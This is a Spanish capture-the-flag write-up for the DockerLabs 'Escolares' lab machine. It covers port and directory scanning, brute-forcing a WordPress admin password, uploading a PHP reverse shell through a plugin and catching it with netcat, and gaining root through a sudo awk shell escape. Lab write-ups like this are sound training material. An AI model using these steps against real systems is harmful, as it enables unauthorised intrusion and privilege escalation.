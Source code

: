 ```yaml
---
title: Escolares - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/7f83b9e1-1efc-47e7-8ce5-c23e2b3e5bce)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/1c698515-45c1-423a-b81b-9a9a0526ba60)

# Exploración Web

Al acceder a la página web, observamos una pagina sobre una *Universidad de Ciberseguridad*.

![image](https://github.com/user-attachments/assets/c1f9320f-5e28-45fe-98bd-25c2a803932c)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Al analizar el código fuente de la página, encontramos una ruta hacia `profesores.html`, donde descubrimos que `luisillo` es el administrador de la instalación de WordPress.

![image](https://github.com/user-attachments/assets/f8a22e16-6c9d-4326-a1fc-133004368103)

# WordPress

Exploramos el directorio `wordpress` y observamos que necesitamos ajustar el archivo `/etc/hosts` para que el dominio `escolares.dl` funcione correctamente.
Añadimos lo siguiente a /etc/hosts:

![image](https://github.com/user-attachments/assets/6a175fca-b27a-4865-b269-c7235cc26717)

```txt
172.17.0.2 escolares.dl
```
![image](https://github.com/user-attachments/assets/01d0e3c2-59a4-45c6-9a44-830b093601c1)

Repetimos el escaneo de directorios en `wordpress`:
```bash
gobuster dir -u escolares.dl/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img 
```

![image](https://github.com/user-attachments/assets/26d3c04e-4e2c-4aca-af76-f1dd69938f43)

Identificamos al usuario luisillo como administrador. Procedemos con un ataque de fuerza bruta para descubrir su contraseña.

Si probamos otra vez , ahora incluso el `gobuster` funciona mejor.

![image](https://github.com/user-attachments/assets/78af7eab-189b-4cbb-a863-f28a2c2867f6)

Nos encuentra muchas rutas interesantes , pero lo que haremos sera usar wpscan , que esta ella espeficamente para auditar paginas wordpress.

```bash
wpscan --url http://escolares.dl/wordpress -e u,cb,vp,vt
```
Encontramos el usuario que vimos en la ruta de antes de `profesores.html`, por lo que con se ve es un usuario en potencia para probar fuerza bruta.

![image](https://github.com/user-attachments/assets/21a0a639-5334-44e9-9463-f9a831e3f157)

##Fuerza bruta usuario luisillo

Antes vimos informacion de ese usuario por lo que podemos generar un diccionario de contraseñas a traves de ese usuario.
```bash
cupp -i 
```

![image](https://github.com/user-attachments/assets/2be2ec8e-6ba4-4e1c-9f98-70fcac195447)

Hacemos el ataque con wpscan al usuario lusillo.

```bash
wpscan --url http://escolares.dl/wordpress/ -U luisillo -P luisillo.txt
```

![image](https://github.com/user-attachments/assets/88dc4f7d-c65d-4f7b-bd9a-5d8727a477d7)

Esta es la contraseña que tenemos de ese usuario, ya solo nos queda acceder como su usuario en el panel de administracion.

![image](https://github.com/user-attachments/assets/db6e7552-df85-455c-b8b9-19222b622268)

Ya dentro nos vamos al apartado de plugins, vemos un plugin el cual tiene acceso a los archivo del servidor web por lo que tenemos que hacer es generar una reverse shell, y acceder desde ella.

## Reverse Shell

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

## Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en el directorio `wordpress`, con la ayuda del plugin.
2. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/58b7b91a-e2a4-47f5-86e8-b15b8c8d2f26)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```bash 
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/1ba7e21b-c471-46c7-9873-6a77781a0f9e)

Hacemos un whoami para ver si somos el usuario www-data.

![image](https://github.com/user-attachments/assets/93cb0367-a3de-4317-ba45-68e930f37faf)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```
# Escalada de Privilegios

Viendo los home pra enumerar mas usuarios encontramos un archivo llamado `secret.txt`.

![image](https://github.com/user-attachments/assets/dfeea024-eb46-4065-ba33-66cf01994575)

Parece que lo contenia era la contraseña del usuario luisillo.

```bash
su luisillo
```

![image](https://github.com/user-attachments/assets/ec926bf5-ed7f-4694-9110-0c48f288a5c6)

Al ejecutar `sudo -l`, vemos que podemos ejecutar `awk` como `root`. Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
![image](https://github.com/user-attachments/assets/45826585-e997-46e3-9e36-246a50587dc5)

Ya seriamos root.


